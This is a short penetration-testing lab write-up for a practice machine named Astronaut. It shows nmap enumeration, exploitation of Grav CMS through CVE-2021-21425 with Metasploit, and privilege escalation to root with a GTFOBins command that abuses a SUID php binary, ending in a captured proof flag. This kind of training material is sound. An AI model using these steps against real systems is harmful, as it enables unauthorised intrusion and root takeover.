 > Noamro08 - 1 March 2024
### Target: 192.168.233.12
---
### Enumeration:
nmap scan - services + default scripts, Top-1000-Ports
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/Astronaut]
└─$ nmap -Pn -n -A 192.168.233.12 -oN inital.scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-01 21:56 IST
Nmap scan report for 192.168.233.12
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 80:
with wappalyzer we can see grav admin runs grav cms:
and we find this exploit, blog that explains how to exploit it "https://github.com/CsEnox/CVE-2021-21425"
i choose the way with metasploit, enter the regular options and change the target uri to /grav-admin:
![[Pasted image 20240301224320.png]]
we get shell

### Privesc
now from linpeas we can see that there is wierd suid "php":
![[Pasted image 20240301225317.png]]

and in [gtfobins](https://gtfobins.github.io/gtfobins/php/#suid) there is privesc to this situation: 
```bash
www-data@gravity:/tmp$ CMD="/bin/sh"
www-data@gravity:/tmp$ ./php -r "pcntl_exec('/bin/sh', ['-p']);"

# whoami
root

# cat /root/proof.txt
ab2ecdce770b74623c088aa5ade621d2
```
